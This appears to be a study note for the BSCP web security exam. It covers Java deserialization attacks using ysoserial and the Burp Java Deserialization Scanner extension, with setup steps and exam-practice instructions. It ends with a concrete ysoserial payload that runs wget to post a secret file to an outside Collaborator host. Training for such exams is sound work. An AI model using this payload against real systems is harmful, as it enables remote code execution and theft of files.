


## Basic command
In Java versions 16 and above, you need to set a series of command-line arguments for Java to run ysoserial. For example:
```
java -jar ysoserial-all.jar \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
   --add-opens=java.base/java.net=ALL-UNNAMED \
   --add-opens=java.base/java.util=ALL-UNNAMED \
   [payload] '[command]'
```

## Burp Extension: Java Deserialization Scanner
#### Installation
- Download Burp Suite: http://portswigger.net/burp/download.html
- Better to have jdk8
- Install Java Deserialization Scanner from the BApp Store or follow these steps:
  - Download the last release of Java Deserialization Scanner
  - Open Burp -> Extender -> Extensions -> Add -> Choose JavaDeserializationScannerXX.jar file

#### User guide (official)
- After installation, the Java Deserialization Scanner active and passive checks will be added to the Burp Suite 
scanner (it is possible to disable the checks in the options tab)
- Simply run the active or passive scanner in order to check also for weak Java deserialization
- With the dedicated tab "Manual testing" it is possible to set the injection point and executing the attack with all 
  the payloads
- With the dedicated tab "Exploiting" it is possibile to actively exploit Java deserialization vulnerabilites
- The "Configuration" contains all the needed configuration for the correct working of the plugin - **here you 
  have to specify path to ysoserial binary**

### How to use
- Based on this article: [BSCP certification (RUS)](https://habr.com/en/companies/jetinfosystems/articles/805297/)
- steps for practice exam:
  - find admin_prefs cookie after deleting user
  - set its value as insertion point on tab "Manual testing" and press attack (remember to check all types of attack 
   sleep, DNS, CPU)
  - extension should define potential vuln


- on the exploit tab:
  - set insertion point
  - add encoding/compress: gzip --> base64 --> url
  - add payload command
```
CommonsCollections2 'wget http://Collaborator.net --post-file=/home/carlos/secret'
```



